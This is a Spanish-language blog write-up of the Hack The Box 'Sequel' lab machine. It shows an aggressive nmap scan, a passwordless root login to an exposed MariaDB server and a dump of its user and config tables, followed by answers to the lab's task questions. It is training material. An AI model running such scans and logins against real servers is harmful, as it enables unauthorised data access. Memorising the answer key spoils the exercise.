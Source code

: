```yaml
---
title: Hack The Box - Starting Point - Tier 1 - Sequel Writeup
date: 2022-08-10 09:10:00 +0800
categories: ["Hack The Box", Writeup]
tags: [htb, writeups]     # TAG names should always be lowercase
---
```


Este post forma parte de la serie **Tier 1** del **Starting Point** de [HTB](https://app.hackthebox.com/starting-point) que iniciamos [aquí]({% post_url 2022-08-10-htb-writeup-tier1-appointment %}).

## Sequel

El primer paso será iniciar la máquina (para lo que previamente tendremos que tener establecida nuestra conexión VPN)

![](/assets/posts/20220810/img08.png)

Las tags de este box no dan varias pistas de por donde van los tiros.

Copiamos la IP del equipo remoto, en mi caso *10.129.217.57*, y lanzamos un **nmap**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ nmap -A 10.129.217.57 -oN nmap_output
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 20:16 CEST
Nmap scan report for 10.129.217.57
Host is up (0.086s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
|_sslv2: ERROR: Script execution failed (use -d to debug)
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 84
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, ConnectWithDatabase, Support41Auth, FoundRows, InteractiveClient, Speaks41ProtocolOld, ODBCClient, SupportsTransactions, LongColumnFlag, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, IgnoreSigpipes, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: >Rd~p4Pu!>TnMrx&PB;>
|_  Auth Plugin Name: mysql_native_password
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.38 seconds
```

Significado de las flags:

* `-A`&nbsp;: escaneo completo (aka agresivo) que ejecuta OS detection, version detection, script scanning y traceroute todo del tirón.
* `-oN`&nbsp;: imprime la salida en un fichero de texto con el nombre *nmap_output*

OK. Tenemos un servicio *mysql* escuchando en el puerto *3306/tcp*, concretamente una *5.5.5-10.3.27-MariaDB-0+deb10u1*

Iniciamos nuestro cliente **mysql** en local, con *root* como usuario y sin contraseña, y nos ponemos a trastear.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ mysql -h 10.129.217.57 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 77
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.041 sec)

MariaDB [(none)]> use htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.038 sec)

MariaDB [htb]> select * FROM users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0.039 sec)

MariaDB [htb]> select * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.038 sec)

MariaDB [htb]>
```

Bingo !

## Respuestas:

* <strong>Task 1</strong>: Structured Query Language
* <strong>Task 2</strong>: 3306
* <strong>Task 3</strong>: MariaDB
* <strong>Task 4</strong>: -u
* <strong>Task 5</strong>: root
* <strong>Task 6</strong>: *
* <strong>Task 7</strong>: ;

